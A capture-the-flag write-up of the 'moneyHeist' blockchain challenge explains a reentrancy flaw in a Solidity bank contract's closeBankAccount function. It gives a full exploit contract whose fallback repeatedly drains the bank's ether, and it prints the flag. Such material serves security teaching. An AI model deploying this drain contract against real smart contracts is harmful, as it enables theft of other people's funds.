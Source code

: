# HTB x Uni CTF 2020: moneyHeist

![date](https://img.shields.io/badge/date-21.11.2020-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)  
![blockchain category](https://img.shields.io/badge/category-blockchain-lightgrey.svg)
![hard dificulty](https://img.shields.io/badge/difficulty-hard-red.svg)
<!-- ![solves](https://img.shields.io/badge/solves-24-brightgreen.svg) -->
<!-- ![score](https://img.shields.io/badge/score-1000-blue.svg) -->

## Flag
```
HTB{Th3_D4ng3R_0f_Re3nTr4ncY}
```

## Detailed solution

After starting and visiting the page of the challenge, we are greeted with the source code of a smart contract, as well as it's ABI code and the address it is deployed at.

![1](images/1.png)

[REDUCTED]

![2](images/2.png)

Taking a look at the code, we see that we are able to perform the following operations: 

1. Create an account,
2. Check the balance of an account,
3. Change the balances noted by the contract, only if we are in the middle of a withdrawal process,
4. Transfer ether between accounts
5. Make a withdrawal, and last but not least,
6. Close our account.

```solidity
function dailyWithdrawalRequest(uint transferAmount) public {
    require(transferAmount <= possibleWithdrawalPerDay);
    require(bankRobberAccount[msg.sender] >= transferAmount);
    require(isAccountActive[msg.sender] == true);
    require(hasAlreadyWithdrawn[msg.sender] == false);
    inWithdrawalProcess[msg.sender] = true;
    (bool isSuccessfulTransfer,) = msg.sender.call.value(transferAmount)("");
    require(isSuccessfulTransfer);
    fundsMovementProcess(address(this),msg.sender,transferAmount,1);
    hasAlreadyWithdrawn[msg.sender] = true;
    inWithdrawalProcess[msg.sender] = false;
}

function closeBankAccount() public {
    require(isAccountActive[msg.sender] == true);
    (bool isSuccessfulTransfer,) = msg.sender.call.value(bankRobberAccount[msg.sender])("");
    require(isSuccessfulTransfer);
    bankRobberAccount[msg.sender] = 0;
    isAccountActive[msg.sender] = false;
    }
}
```

We can see that both the `dailyWithdrawalRequest` and the `closeBankAccount` methods might be vulnerable to a reentrancy attack, caused by the `msg.sender.call.value()()` calls.

```solidity
function dailyWithdrawalRequest(uint transferAmount) public {
    require(transferAmount <= possibleWithdrawalPerDay);
```

Starting with `dailyWithdrawalRequest`, first off, we can pass the amount we want to withdraw. This amount will then be checked against the `possibleWithdrawalPerDay` variable, which limits the amount we can withdraw to 0.001 ether per day.

```solidity
    require(bankRobberAccount[msg.sender] >= transferAmount);
```

Then, it checks whether the account of the sender has sufficient amount of ether to cover the withdrawal. This means that once we create our account, we will need to pass some ether to the contract, and that then, our transactions will have to be less or equal to the original amount we transfered to the contract, just to pass this first check.

```solidity
    require(isAccountActive[msg.sender] == true);
    require(hasAlreadyWithdrawn[msg.sender] == false);
```
The next two checks are to ensure that our account is actuve and that we have not already withdrawn for the day.

```solidity
    inWithdrawalProcess[msg.sender] = true;
    (bool isSuccessfulTransfer,) = msg.sender.call.value(transferAmount)("");
```

After changing a flag to indicate we are currently in a withdrawal process (which will allow the `fundsMovementProcess` method that will update the arrays holding each accounts' information to run), the contract is calling the sender in order to send it the required amount.

```solidity
    require(isSuccessfulTransfer);
    fundsMovementProcess(address(this),msg.sender,transferAmount,1);
    hasAlreadyWithdrawn[msg.sender] = true;
    inWithdrawalProcess[msg.sender] = false;
}
```

The catch here is that (other than the use of `msg.sender.call`), any changes to the contract's state are done after the actual transaction, meaning reentrancy is indeed possible.

Even though we could actually try and attack this method, after a closer look at the `closeBankAccount` method, we can see that since it is transfering the full amount of our account back to us before updating any variables, it is way easier to attack that method instead, mostly because of the smaller amount of moving parts when the method is called:

```solidity
function closeBankAccount() public {
    require(isAccountActive[msg.sender] == true);
    (bool isSuccessfulTransfer,) = msg.sender.call.value(bankRobberAccount[msg.sender])("");
    require(isSuccessfulTransfer);
    bankRobberAccount[msg.sender] = 0;
    isAccountActive[msg.sender] = false;
}
```

The only check done here is whether our account is active.

This means we first have to create an account, passing it some ether, and then close it, which will result to the amount of ether we passed to it, being sent back to us. The catch here is that if we do this from a smart contract, the fallback method of which also calls the `closeBankAccount` method, it'll be able to call it recursively before the Bank contract is even able to make any updates internally, since every previous call to the method will be blocked until `msg.sender.call` returns. Every time this happens, the same amount of ether we initially passed to the contract will be sent to us.

Great, we now know how we can attack it. Since the objective of the challenge is to empty to Bank contract from ether, we also know that the original amount we pass to the contract, should be a multiple of the ether in the contract.

Time for an exploit.

```solidity
import "./moneyHeist.sol";


contract HTBUniCTF {
    address private _owner;
    address private _vulnAddr = 0xb058e8De325AD37d3D978B4e391194dc4388F8b3;
    moneyHeist public vul = moneyHeist(_vulnAddr);
    bool private accCreated = false;
    int private count = 0;
    
    constructor() public payable {
        _owner = msg.sender;
    }
    
    fallback() external payable {
        if (accCreated){
            if (address(vul).balance != 0){
                vul.closeBankAccount();
            }

        }
    }
    
    function init() public payable {
        vul.createNewAccount.value(0.001 ether)();
        accCreated = true;
    }
    
    function exploit() public {
        vul.closeBankAccount();
    }
    
    function payday() public {
        _owner.transfer(address(this).balance);
    }
}
```

What's happening here is that first, when we deploy the contract, it will keep our address so we can then tranfer its balance back to us.

When we call the `init` method, it will create an account to the moneyHeist contract, passing it 0.001 ether.

Then, when we call `exploit`, it will call `closeBankAccount`. This will cause our fallback method to be called midway the `closeBankAccount` execution, before the Bank contract actually deletes our account or sets our account balance to zero. This means that every time we call `closeBankAccount`, it will transfer the same amount, again and again, until the contract's balance reaches zero. Then, every call will change our internal balance to zero, since no complex check is done that could revert our transactions.

![3](images/3.png)

Our contract before the attack:

![4](images/4.png)

Our contract after the attack (screenshot taken at a later time):

![5](images/5.png)

Attack transaction:

![6](images/6.png)

Bank contract internal transactions:

![7](images/7.png)

Bank contract after the attack:

![8](images/8.png)

All your Ether are belong to us.

